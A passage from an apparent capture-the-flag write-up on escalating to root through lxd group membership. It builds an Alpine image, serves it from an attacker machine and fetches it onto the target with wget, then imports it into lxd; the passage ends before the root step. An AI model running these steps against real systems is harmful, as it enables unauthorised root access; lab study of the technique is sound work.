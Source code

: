 ## Linpeas
![screenshot](/assets/images/tabby36.png)https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

## Lxd/lxc group privilege escalation
A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.

https://github.com/saghul/lxd-alpine-builder.git

```sh
# on Kali
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
./build-alpine
```

![screenshot](/assets/images/tabby37.png)

```sh
python3 -m http.server 80
```

> change directory to `home/ash`

```sh
# target
wget http://10.10.14.50/alpine-v3.13-x86_64-20210218_0139.tar.gz

/snap/bin/lxd init

# enter (default) for all prompts

/snap/bin/lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine

/snap/bin/lxc image list
```

![screenshot](/assets/images/tabby38.png)
